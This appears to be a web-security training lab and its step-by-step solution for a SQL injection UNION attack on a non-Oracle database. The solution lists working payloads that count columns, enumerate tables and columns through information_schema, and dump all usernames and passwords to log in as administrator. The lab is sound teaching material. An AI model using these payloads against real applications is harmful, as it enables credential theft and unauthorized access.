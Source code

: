 <pre>
  <h1>Lab: SQL injection attack, listing the database contents on non-Oracle databases</h1>

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

 <h2>Hint</h2>

You can find some useful payloads on our SQL injection cheat sheet.
ACCESS THE LAB
  
<h1>Solution</h1>

    Use Burp Suite to intercept and modify the request that sets the product category filter.

    Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'--

    Use the following payload to retrieve the list of tables in the database:
    '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    Find the name of the table containing user credentials.

    Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    Find the names of the columns containing usernames and passwords.

    Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    Find the password for the administrator user, and use it to log in.

</pre>
